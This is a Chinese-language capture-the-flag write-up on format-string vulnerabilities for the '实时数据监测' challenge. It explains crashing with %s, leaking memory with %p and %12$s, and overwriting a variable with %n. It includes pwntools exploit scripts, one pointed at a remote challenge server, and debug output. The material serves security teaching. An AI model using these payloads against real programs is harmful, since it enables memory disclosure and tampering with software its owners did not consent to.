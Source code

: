 ***
例题
攻防世界 实时数据监测
***
# 程序崩溃
假如说，有这样一个代码
```
scanf("%s", s);
printf(s);
```
我们怎么让它崩溃呢？
**输入一大堆的%s**就会产生段错误
为什么会这样呢？
因为printf在调用之前，会把它所需要的所有参数都压栈，然后根据你的格式化字符串当中的%s或者%d等等去栈上找参数
如果我输入了很多%s,printf会把%s这种内容当作格式化字符串来处理，就向栈当中去找对应的参数，但是你的栈里面存的内容不一定都是合法地址，所以一旦发现不是合法地址，就会报错
# 任意地址泄露
## 神奇的$符
在C语言中，printf函数中格式化字符串的"$"符号被用来直接访问特定索引位置的参数。这个特性被称为"直接参数访问"或"参数索引指示符"。它允许你通过指定参数的索引位置来重新排列格式化字符串中的参数顺序。
如果想要使用这个符号，**首先先得知道你输入的参数是printf的第几个参数**
通常会使用%p的方法
```
payload += b'AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'
```
之后就找AAAA出现的是在哪一个十六进制的位置上
比如
```
sscat@sscat:~/Pwn/实时数据监测$ python3 exp.py 
[+] Starting local process './sssjjc' argv=[b'./sssjjc'] : pid 94188
[DEBUG] Sent 0x25 bytes:
    b'AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n'
[*] Switching to interactive mode
[*] Process './sssjjc' stopped with exit code 0 (pid 94188)
[DEBUG] Received 0x100 bytes:
    00000000  41 41 41 41  30 78 66 37  65 66 31 38  66 30 30 78  │AAAA│0xf7│ef18│f00x│
    00000010  66 66 66 39  35 33 39 34  28 6e 69 6c  29 30 78 66  │fff9│5394│(nil│)0xf│
    00000020  37 65 61 64  30 30 30 30  78 66 37 65  61 64 30 30  │7ead│0000│xf7e│ad00│
    00000030  30 30 78 66  66 66 39 35  33 33 38 30  78 38 30 34  │00xf│ff95│3380│x804│
    00000040  38 34 65 37  30 78 66 66  66 39 35 31  33 30 30 78  │84e7│0xff│f951│300x│
    00000050  32 30 30 30  78 66 37 65  61 64 35 38  30 28 6e 69  │2000│xf7e│ad58│0(ni│
    00000060  6c 29 30 78  34 31 34 31  34 31 34 31  30 78 37 30  │l)0x│4141│4141│0x70│
    00000070  32 35 37 30  32 35 30 78  37 30 32 35  37 30 32 35  │2570│250x│7025│7025│
    00000080  30 78 37 30  32 35 37 30  32 35 30 78  37 30 32 35  │0x70│2570│250x│7025│
    00000090  37 30 32 35  0a 54 68 65  20 6c 6f 63  61 74 69 6f  │7025│·The│ loc│atio│
    000000a0  6e 20 6f 66  20 6b 65 79  20 69 73 20  30 38 30 34  │n of│ key│ is │0804│
    000000b0  61 30 34 38  2c 20 61 6e  64 20 69 74  73 20 76 61  │a048│, an│d it│s va│
    000000c0  6c 75 65 20  69 73 20 30  30 30 30 30  30 30 30 2c  │lue │is 0│0000│000,│
    000000d0  6e 6f 74 20  74 68 65 20  30 78 30 32  32 32 33 33  │not │the │0x02│2233│
    000000e0  32 32 2e 20  28 e2 95 af  c2 b0 d0 94  c2 b0 29 e2  │22. │(···│····│··)·│
    000000f0  95 af ef b8  b5 20 e2 94  bb e2 94 81  e2 94 bb 0a  │····│· ··│····│····│
    00000100
AAAA0xf7ef18f00xfff95394(nil)0xf7ead0000xf7ead0000xfff953380x80484e70xfff951300x2000xf7ead580(nil)0x414141410x702570250x702570250x702570250x70257025
The location of key is 0804a048, and its value is 00000000,not the 0x02223322. (╯°Д°)╯︵ ┻━┻
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```
从回显中数有几个0x和nil,那么41就是第12个，所以在第12个参数的时候会输出我们的输入
```
from pwn import *

context.log_level = 'debug'

p = process('./sssjjc')
buf = 0x0804a048

#payload = b'AAAA' + b'%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'
payload = p32(buf) + b'%12$s'
p.sendline(payload)
p.interactive()
```
# 任意地址写入

看这道题，我们想往0x0804a048写入数据，让它等于0x2223322，怎么办呢？
使用%n
%n的作用就是将printf打印的字符串的数量输入到指定地址里面
于是我们又用到了%0\*d这一功能，这个功能会将输入的数据补齐0,\*就是不满足这个数据时，补齐到多少位
于是我们的exp就变成了
```
from pwn import *

context.log_level = 'debug'

#p = process('./sssjjc')
p = remote('61.147.171.105', 59170)
buf = 0x0804a048


payload = p32(buf) + b'%035795742d' + b'%12$n'
#payload = p32(buf) + b'%15$s'
p.sendline(payload)
p.recv()
p.interactive()
```
注意，因为前面输出了p32(buf)，所以最后的值要减4
直接拿flag
哈哈
# 漏洞特征
看到有直接printf(var)的地方，就可能存在格式化字符串漏洞，可以用第一节说的程序崩溃的方法试一下